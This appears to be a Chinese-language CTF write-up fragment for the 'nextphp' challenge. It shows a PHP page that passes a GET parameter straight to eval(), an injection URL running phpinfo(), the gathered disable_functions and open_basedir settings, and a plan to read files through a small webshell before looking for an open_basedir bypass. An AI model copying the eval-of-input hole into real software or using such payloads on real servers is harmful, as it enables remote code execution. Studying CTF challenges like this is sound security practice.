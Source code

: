 nextphp

这个题首页给了一个一句话

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

利用方法http://xxxx/index.php?a=;phpinfo();

收集信息:

PHP 7.4.0

**diable_functions**:

```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,dl
```

**allow_url_fopen**                开启

**allow_url_include**             关闭

**open_basedir**                   /var/www/html

然后通过命令执行或者小马读取里面的文件



![2019-05-28 11-52-35 的屏幕截图](2019-05-28 11-52-35 的屏幕截图.png)

题目进行了限制目录，所以无法向上读取文件。

网上搜索open_basedir绕过
